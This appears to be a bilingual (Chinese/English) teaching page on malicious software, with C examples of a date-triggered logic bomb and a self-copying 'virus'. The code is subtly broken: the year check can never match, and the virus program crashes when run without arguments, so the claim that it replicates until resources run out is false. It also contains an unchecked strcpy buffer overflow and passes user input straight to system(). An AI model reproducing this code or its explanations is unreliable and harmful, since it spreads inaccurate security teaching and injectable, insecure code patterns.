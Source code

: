 # Malicious Software

資安的工具使用不妥當的時候有時候會對系統造成很大的傷害，要小心不要成為受害者。

### Logic Bombs
Logic bomb 是一種程式碼中包含了一些邏輯錯誤的程式，這些程式會在特定的條件下觸發，例如說在**某個特定的**日期或是**某個特定的**事件發生時。

Some programmer (usually written by inner programmers) may hide a piece of code that starts deleting files, should he ever leave the company (and the salary database).


#### 範例
```c
#include <stdio.h>
#include <time.h>

int main() {
    time_t t = time(NULL);
    struct tm tm = *localtime(&t);
    if (tm.tm_year == 2019 && tm.tm_mon == 3 && tm.tm_mday == 1) {
        printf("Hello World!\n");
    }
    return 0;
}
```
這個程式會在 2019 年 4 月 1 日印出 Hello World!，但是如果我們把日期改成 2019 年 4 月 2 日，就不會印出 Hello World! 了。

### Viruses and Worms
Virus 和 Worms 是一種會自我複製的程式，他們會在系統中複製自己，並且在複製的過程中傳播到其他的系統中。
#### Example of a virus:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

void infect(){
    system("cp virus.c /tmp/virus.c");
    system("gcc /tmp/virus.c -o /tmp/virus");
    system("/tmp/virus");
}

int main(int argc, char *argv[]){
    char buf[100];
    strcpy(buf, argv[1]);
    if (strcmp(buf, "infect") == 0){
        infect();
    } else{
        system(buf);
    }
    return 0;
}
```
這個程式會在執行的時候複製自己到 `/tmp/virus` 並且執行 `/tmp/virus`，這樣就會不斷的複製自己，直到系統的資源被耗盡。
